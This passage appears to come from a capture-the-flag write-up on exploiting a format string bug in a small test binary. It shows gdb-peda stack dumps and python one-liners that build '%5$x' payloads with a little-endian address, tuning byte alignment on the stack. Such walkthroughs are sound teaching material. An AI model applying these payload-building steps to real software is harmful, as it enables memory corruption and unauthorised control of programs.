 ```
    mov    eax,DWORD PTR [rip+0x2009b0]        # 0x60105c <var0>
   0x4006ac <fun0+70>:	cmp    eax,0x1e6
   0x4006b1 <fun0+75>:	jne    0x4006bd <fun0+87>
   0x4006b3 <fun0+77>:	mov    edi,0x400788
Guessed arguments:
arg[0]: 0x7fffffffddb0 --> 0xabedead78243525 
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffddb0 --> 0xabedead78243525 
0008| 0x7fffffffddb8 --> 0x0 
0016| 0x7fffffffddc0 --> 0x0 
0024| 0x7fffffffddc8 --> 0x0 
0032| 0x7fffffffddd0 --> 0x0 
0040| 0x7fffffffddd8 --> 0x0 
0048| 0x7fffffffdde0 --> 0xff00000000000000 
0056| 0x7fffffffdde8 --> 0xff0000000000 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x00000000004006a1 in fun0 ()
gdb-peda$ x/2x 0x7fffffffddb0
0x7fffffffddb0:	0x0abedead78243525	0x0000000000000000

```

So we can see that the mock address we gave it (0xbedead) is not stored in memory how we need it to be. We need it all to be stored in the same segment with the hex string being the last characters and only preceeded by zeros. If it isn't like that, then the exploit will not work. Here the string is stored together however there is a lot of data before and after it. We see that the next segment is full of zeros, so we can try moving our string there. Since the data in this elf is stored in little endian (least significant bit first), we can try shifting our string over by adding characters before our address.


Input:
```
python -c 'print "0000%5$x" + "\xad\xde\xbe"' > p1
```

What it looks like in gdb (the rest of these will be at same breakpoint):

```
gdb-peda$ x/2x 0x7fffffffddb0
0x7fffffffddb0:	0x7824352530303030	0x000000000abedead
```

So this is a big improvement. We managed to successfully move over the "bedead" hex string over to the next segment by adding four zeros before the address. Now there is still a character that we need to deal with, which is the a before the hex string "bedead". We can try moving that over by adding zeros after our address, because it is stored in little endian. 10 should be able to do it.

Input:
```
python -c 'print "0000%5$x" + "\xad\xde\xbe\x00\x00\x00\x00\x00"' > p1
```
